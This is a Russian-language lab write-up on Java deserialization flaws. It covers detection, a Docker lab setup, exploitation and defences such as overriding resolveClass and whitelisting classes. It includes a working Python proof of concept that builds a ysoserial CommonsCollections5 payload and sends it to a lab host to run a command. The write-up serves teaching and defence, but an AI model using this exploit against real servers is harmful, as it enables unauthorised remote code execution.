 # Deserialization (Java)


# Описание

Сериализация -- процесс перевода какой-либо структуры данных в последовательность бит, пригодную для хранения в файлах или передачи данных по сети. Десериализация -- процесс восстановления начального состояния структуры из последовательности. 

# Уязвимость

В качестве объекта для сериализации можно записать пользовательские данные, которые могут вызвать выполнение методов из уязвимых библиотек. С помощью уязвимых библиотек можно выполнить произвольный код. 

# Условия

ОС: любая
язык: Java
компоненты: уязвимые библиотеки Java
настройки: зависят от библиотеки

# Детектирование

- Класс вредоносного объекта присутствует в classpath сервера. 
- Класс вредоносного объекта ― сериализуемый или экстернализуемый.

## Развертывание

Запускаем [докер контейнер](https://github.com/GrrrDog/ZeroNights-WebVillage-2017/) для java. 
В данном примере уязвимый сервис будет находиться на http://java.lab


# Эксплуатация

## Шаг 1

Скачиваем [ysoserial](https://github.com/frohoff/ysoserial).

## Шаг 2

Используем следующий POC

```python
import requests
import urllib
import subprocess
import base64

# генерируем payload
payload = subprocess.check_output("java -jar ysoserial.jar CommonsCollections5 'touch /tmp/huck-you.txt'", shell=True)
# отправляем
result = requests.get('http://java.lab/ois?sess=%s' % (urllib.parse.quote(base64.b64encode(payload)),))
print(result.text)
```

Сгенерированный payload с помощью ysoserial запустит произвольный код на атакуемом сервере. При этом вылетит ошибка согласования типов, однако код всё равно запустится. 



# Защита

- переопределение  метода resolveClass().

При чтении потока сериализованному объекту предшествует описание класса. Эта структура позволяет  реализовать свой собственный алгоритм чтения описания класса и в зависимости от имени класса решать, следует ли продолжить чтение потока. Для этого можно использовать переопределение  метода resolveClass(). Его можно использовать для выдачи исключения всякий раз, когда поток содержит неожидаемый класс. Таким образом exception выдаётся до того, как объект начинает десериализовываться. 


- Своевременное обновление библиотек.
- Использование белого листа для десериализуемых объектов. 


# Ущерб

Подмена объекта десериализации потенциально может привести к удалённому выполнению кода на сервере. 

# Ссылки

- https://github.com/frohoff/ysoserial
- https://nytrosecurity.com/2018/05/30/understanding-java-deserialization/
- http://gursevkalra.blogspot.com/2016/01/ysoserial-commonscollections1-exploit.html
- https://docstore.mik.ua/orelly/java-ent/security/ch02_01.htm#SEC-CH-2-SECT-1.1
- https://www.ibm.com/developerworks/ru/library/se-lookahead/index.html
